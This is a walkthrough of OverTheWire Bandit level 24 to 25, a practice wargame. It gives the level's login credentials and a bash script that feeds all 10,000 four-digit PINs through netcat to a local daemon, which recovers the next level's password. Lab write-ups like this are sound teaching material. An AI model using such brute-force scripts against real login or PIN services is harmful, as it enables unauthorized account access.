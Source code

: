 # [Level 24 to 25](https://overthewire.org/wargames/bandit/bandit24.html) - Brute-forcing with bash scripting and netcat

- Login
```
SSH: ssh bandit24@bandit.labs.overthewire.org -p 2220
Password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
- Exercise: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time
- Background:
  - for loop in bash 
```bash
for var in 1 2 ... N
do
  #something
done
```
- Solution:
  - Connect to the port with netcat 
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
0000
Wrong! Please enter the correct current password and pincode. Try again.
```
  - Create bash script
```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.GnsTBgHerI
bandit24@bandit:~$ cd /tmp/tmp.GnsTBgHerI
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ nano brute_force_pin.sh
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ cat brute_force_pin.sh
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ chmod +x brute_force_pin.sh
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ ./brute_force_pin.sh 
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ ls
brute_force_pin.sh  possibilities.txt  result.txt
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ sort result.txt | grep -v "Wrong!"

Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
- Password: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
